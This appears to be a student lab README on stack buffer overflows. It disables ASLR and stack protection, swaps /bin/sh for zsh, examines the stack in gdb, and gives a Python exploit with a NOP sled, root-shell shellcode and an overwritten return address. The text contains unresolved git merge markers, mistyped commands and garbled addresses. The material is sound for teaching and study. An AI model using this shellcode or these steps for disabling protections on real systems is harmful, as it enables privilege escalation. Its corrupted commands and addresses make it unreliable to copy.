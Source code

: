 #Buffer Overflow

The objective of this project is to learn how to analyze whether a program has a buffer
overflow (BOF) vulnerability, how to exploit BOF and how to defend against BOF.
BOF is an anomaly that violates memory safety. If you give an input that is longer
than expected length, it would be written out of bounds to a block of fixed pre-
allocated memory. This situation leads to data corruption and crash of the program
or executes malicious codes by changing control flow of the program. To exploit buffer overflow properly, we have to install Ubuntu 14.04.03 LTS 32-Bit version OS.

We have to disable address space randomization (ASR). ASR is able to put address space targets in unpredictable locations. If an attacker attempts to exploit an incorret address space location, the target application will crash, stopping the attack and alerting the system. We don't need these kind of things if we want to write Buffer Overflow exploits. 

Disable ASR

```
$ sudo systcl -w kernel .randomize_va_space=0

[sudo] password for : 

```

1. 0 means No randomization. Everything is static.
2. 1 means Conservative randomization. Shared libraries, stack, mmap(), VDSO and heap are randomized.
3. 2 means Full randomization. In addition to elements listed in the previous point, memory managed through brk() is also randomized.

randomize_va_space value will be set to 2 after reboot. We can disable ASR permanently by adding `sudo nano /etc/sysctl.d/01-disable-aslr.conf` containing `kernel.randomize_va_space=0`

The gcc compiler has a protection scheme called "Stack Guard". BOF attacks will not work with this scheme. We have to add `fno-stack-protector` option to our command. 

`$ gcc -fno-stack-protector -z exestack -g -o sample sample.c`

-g - indicates that you can analyze a program with gdb.
-o - name of executable program.

There are security mechanisms against attacks like BOF that use shell programs like /bin/sh linked to /bin/bash. Thus, privileges for shell are dropped and we can not retain the privileges inside the shell. Therefore, we will use another shell, zsh.

```
$ sudo su

[sudo] password for :

apt-get install zsh

cp /bin/sh /bin/sh.bak

ln -s /bin/zsh /bin/sh

```

## Experiment 1

<<<<<<< HEAD
#### Valid Input

=======
>>>>>>> 43718e3751c1415d93bb6a9ffebfefaa3055a0ba
![valid-input-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/valid-input-1.png)

We firstly executed these commands to check stack boundaries:

start
info registers

The important registers for us are $esp (top of the stack) and $ebp (bottom of the stack). These registers can tell us that where the bof function starts and ends.  Our bof function starts at 0bfffee90 and ends 0bfffef18.

Then x/80x $esp command executed to examine 80 hexadecimal words, starting at $esp. 


Bof function starts at 0bfffef90 and ends 0bfffef18.  The first word after $ebp actually is a return address of bof but we are gonna talk about this later. 

We also defined breakpoints at *main+48 (at return instruction of main) and *bof+27 (right after strcpy function). Input were sequence of 's' characters (smaller than 100). 

![valid-input-2](https://github.com/wlgzaor/Buffer-Overflow/blob/master/valid-input-2.png)

Here we can see that 's' (73 in ASCII) characters fill the appropriate field of stack and return address  wasn't overwritten by 's' characters.

<<<<<<< HEAD
```python
#!/usr/bin/python

print  's' * 64
```

=======
>>>>>>> 43718e3751c1415d93bb6a9ffebfefaa3055a0ba
![valid-input-3](https://github.com/wlgzaor/Buffer-Overflow/blob/master/valid-input-3.png)

We checked current eip by typing info frame command and there is no changes. Later we will see that how the instruction pointer changes when user enters invalid input.

EIP holds the memory address of next instruction that would be executed.

Info frame command can give us information about stack frames. Now we will try to interpret these     output that you see above. 

###### Stack level 0

Frame number in backtrace, 0 is current executing frame, which grows downwards, in consistence with the stack.

###### Frame at 0bfffef20

Starting memory address of this stack

###### eip = 08048498 in bof (bof.c: 13); saved eip = 080484be 

We said that eip is register for next instruction to execute. So 0*8048498 will be next instruction to execute (line 13 of bof).  

###### saved eip 

080484be is called return address. Pushed into stack upon CALL (save it for return).

###### Arglist at 0bffef18 

The starting address of arguments

###### Locals at 0bfffef18

The starting address of locals 


###### Previous frame's sp is 0bfffef20 

The previous frame's stack pointer point to (the caller frame), at the moment of calling, it also the starting memory address of called stack frame.

###### Saved Registers

* ebp at 0bffef18 address where ebp register of caller's stack frame saved.  (it is the register, not the caller´s stack address). i.e., corresponding to "PUSH %ebp". "ebp" is the register usually considered as the starting address of the locals of this stack frame, which use "offset" to address. 

* eip at 0bfffef1c as mentioned before, but here is the address of the stack (which contains the value "080484be")

#### Invalid Input

![invalid-input-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/invalid-input-1.png)

Now we see that return address (first word after ebp) overwritten to 0737373 (ebp was 0*bfffef18).

<<<<<<< HEAD
```python
#!/usr/bin/python

print  's' * 116
```

=======
>>>>>>> 43718e3751c1415d93bb6a9ffebfefaa3055a0ba
![invalid-input-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/invalid-input-2.png)

We can check eip register to see changes using info frame. Saved eip updated to 0737373 and there have no instruction like 0737373. So we got segmentation  fault.

#### Open Root Shell

Shellcode must not contain any null bytes (00). They will prevent the buffer from overflowing. Exploit that works in gdb may fail in  a real Linux shell because environment variables may cause the location of the stack to change slightly. Solution for this is a NOP Sled (a long series of “90” bytes) which do nothing. We used 64 byte NOP Sled. 

NOP (64 byte) + shellcode (32 byte) + padding (16 byte) + eip (4 byte)

Return address should hit the NOP's area. So eip will be point one of the starting address of NOP's area and instead of returning back to system, it return to the stack area, start executing the NOPs. Then proceeded to our shell.

```python
#!/usr/bin/python

    nop = '\x90' * 64
    shellcode =     ('\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2 f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80')

   padding = 's' * 16
   eip = '\xe0\xee\xff\xbf'  
   print nop + shellcode + padding + eip
```

![shellcode-1](https://github.com/wlgzaor/Buffer-Overflow/blob/master/shellcode-1.png)

Now we see that return address is 0bfffeee0. It'll return back to NOP's area instead of returning main.

![shellcode-2](https://github.com/wlgzaor/Buffer-Overflow/blob/master/shellcode-2.png)

Program opens shell but terminates it immediately. Note that, our program gets input using `gets` built-in function. To run shell please get input from user as a argument.

## Experiment 2

We will analyze stackbof in this experiment.

In main function, a copy function is called and an input, which is given when
the program runs, is passed to the copy function as an argument to copy into a
character array, buf has the length of 10-bytes. Then the input is printed to the
console. If the input is longer than 10 bytes, BOF will occur. We should jump to a hack function instead of the code after the copy function.
